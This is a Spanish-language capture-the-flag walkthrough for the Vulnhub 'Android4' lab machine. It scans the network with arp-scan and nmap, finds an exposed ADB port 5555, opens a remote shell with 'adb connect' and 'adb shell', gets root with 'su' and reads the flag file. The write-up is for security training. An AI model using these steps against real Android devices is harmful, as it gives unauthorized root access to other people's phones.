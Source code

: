 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=300&height=80&lines=ANDROID_4"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/android4-1,233/

<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/179633430-0029a8f7-b789-49a2-80be-12f04ed9357f.png"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con ArpScan. 
```
arp-scan --interface eth0 -l
```
![2](https://user-images.githubusercontent.com/75953873/179633673-54c343f6-fe1c-49bd-a070-a2ccdb4cf488.png)

IP host: `192.168.25.139`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.25.139
```
![3](https://user-images.githubusercontent.com/75953873/179633819-76e89cc3-3e47-4f1c-9d4c-bcd153f748b9.png)

Puertos abiertos: [8080,22000,5555]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 8080,22000,5555 -A 192.168.25.139
```
![4](https://user-images.githubusercontent.com/75953873/179634411-2134bb33-54f8-45c7-a0be-b6dbb9824153.png)

Servidor web (puerto **8080**): `http://192.168.25.139:8080`

![5](https://user-images.githubusercontent.com/75953873/179634788-bc82e682-c166-43c9-bd67-366001b12fd5.png)

O.S: `Android` **--> Kernel Linux**

Puerto **5555**: Es un puerto utilizado por ADB (Puente de Depuración de Android) que se utiliza para conectarse a telefonos móviles a través de TCP y ejecutar comandos.

- *Paso 4:* Conectarse al telefono vía ADB y capturar la flag.

Descargar ADB:
```
apt-get install -y adb
```

Conectarse con el dispositivo y obtener una shell:
```
adb connect 192.168.25.139:5555
adb shell
```
![6](https://user-images.githubusercontent.com/75953873/179636318-eb4f31c6-3c25-4881-aec8-802eb3052785.png)

Acceder a superusuario (**root**) y capturar la flag del directorio `/data/root`:
```
su
cd /data/root
cat flag.txt
```
![7](https://user-images.githubusercontent.com/75953873/179636561-0b059ea4-2dd0-4c97-bc47-0ea74cfd023b.png)

**FLAG:** ANDROID{u_GOT_root_buddy}
